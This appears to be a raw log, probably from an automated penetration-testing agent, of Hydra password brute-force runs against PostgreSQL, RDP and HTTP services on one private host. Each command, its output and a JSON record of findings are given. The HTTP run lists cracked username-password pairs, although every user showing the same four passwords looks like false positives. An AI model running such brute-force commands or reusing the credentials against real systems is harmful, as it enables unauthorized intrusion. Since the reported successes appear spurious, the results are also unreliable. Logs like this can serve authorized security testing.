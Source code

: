 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:49:06
"}{"credentials":[],"endpoints":["10.62.34.10:5432"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt postgres://10.62.34.10:5432", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:49:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 190 login tries (l:5/p:38), ~12 tries per task
[DATA] attacking postgres://10.62.34.10:5432/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-30 18:49:12
"}{"credentials":[],"endpoints":["10.62.34.10:901"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt rdp://10.62.34.10:901", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:49:16
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 190 login tries (l:5/p:38), ~48 tries per task
[DATA] attacking rdp://10.62.34.10:901/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 112 to do in 00:02h, 2 active
[STATUS] 78.00 tries/min, 156 tries in 00:02h, 36 to do in 00:01h, 2 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-30 18:51:45
"}{"credentials":[{"type":"password","login":"admin","password":"protect","context":""},{"type":"password","login":"admin","password":"666","context":""},{"type":"password","login":"admin","password":"clock","context":""},{"type":"password","login":"admin","password":"123456","context":""},{"type":"password","login":"user","password":"protect","context":""},{"type":"password","login":"user","password":"666","context":""},{"type":"password","login":"user","password":"clock","context":""},{"type":"password","login":"user","password":"123456","context":""},{"type":"password","login":"uftp","password":"protect","context":""},{"type":"password","login":"uftp","password":"666","context":""},{"type":"password","login":"uftp","password":"clock","context":""},{"type":"password","login":"uftp","password":"123456","context":""},{"type":"password","login":"usmb","password":"protect","context":""},{"type":"password","login":"usmb","password":"clock","context":""},{"type":"password","login":"usmb","password":"666","context":""},{"type":"password","login":"usmb","password":"123456","context":""}],"endpoints":["10.62.34.10:80"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt -t 4 -w 30 http-get://10.62.34.10:80", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:52:25
[DATA] max 4 tasks per 1 server, overall 4 tasks, 190 login tries (l:5/p:38), ~48 tries per task
[DATA] attacking http-get://10.62.34.10:80/
[80][http-get] host: 10.62.34.10   login: admin   password: protect
[80][http-get] host: 10.62.34.10   login: admin   password: 666
[80][http-get] host: 10.62.34.10   login: admin   password: clock
[80][http-get] host: 10.62.34.10   login: admin   password: 123456
[80][http-get] host: 10.62.34.10   login: user   password: protect
[80][http-get] host: 10.62.34.10   login: user   password: 666
[80][http-get] host: 10.62.34.10   login: user   password: clock
[80][http-get] host: 10.62.34.10   login: user   password: 123456
[80][http-get] host: 10.62.34.10   login: uftp   password: protect
[80][http-get] host: 10.62.34.10   login: uftp   password: 666
[80][http-get] host: 10.62.34.10   login: uftp   password: clock
[80][http-get] host: 10.62.34.10   login: uftp   password: 123456
[80][http-get] host: 10.62.34.10   login: usmb   password: protect
[80][http-get] host: 10.62.34.10   login: usmb   password: clock
[80][http-get] host: 10.62.34.10   login: usmb   password: 666
[80][http-get] host: 10.62.34.10   login: usmb   password: 123456
1 of 1 target successfully completed, 54 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-30 18:52:38